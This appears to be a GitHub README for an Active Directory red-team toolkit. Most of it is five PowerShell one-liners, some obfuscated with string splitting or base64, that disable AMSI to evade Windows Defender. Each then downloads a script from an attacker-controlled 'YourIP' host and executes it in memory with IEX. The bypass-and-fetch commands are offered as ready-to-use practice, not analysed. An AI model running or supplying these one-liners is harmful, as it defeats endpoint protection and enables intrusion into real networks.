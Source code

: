# About the repo:
* You'll find many tools on the internet, however, in this repo you'll find tools that may help you in your AD Red Team activities

# Download as zip or clone it:
* git clone https://github.com/projectHULK/AD_Recon.git

# Import all modules oneliner: (Windows)
* Get-Module -ListAvailable | Import-Module

# As a good practice
1) Insted of download script one-by-one, create a powershell script which will load all your tools to the system.
2) Run any AMSI bypass comand and call your script to run them in momory 'bypassing Defender'.
* I have created Enum.ps1 which will download all the tools 'Put your IP'.
3) You can use the bellow oneliner to bypass AMSI, download Enum.ps1 and run in memory:
* Option 1)
$a = [Ref].Assembly.GetTypes();ForEach($b in $a) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Failed") {$f = $e}};$f.SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
* Option 2)
(([Ref].Assembly.gettypes() | ? {$_.Name -like "Amsi*utils"}).GetFields("NonPublic,Static") | ? {$_.Name -like "amsiInit*ailed"}).SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
*Option 3)
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
* Option 4)
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
* Option 5)
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX

# Note:
* Some tools my require elevated privilege

# AD Road map:
* Coming Soon
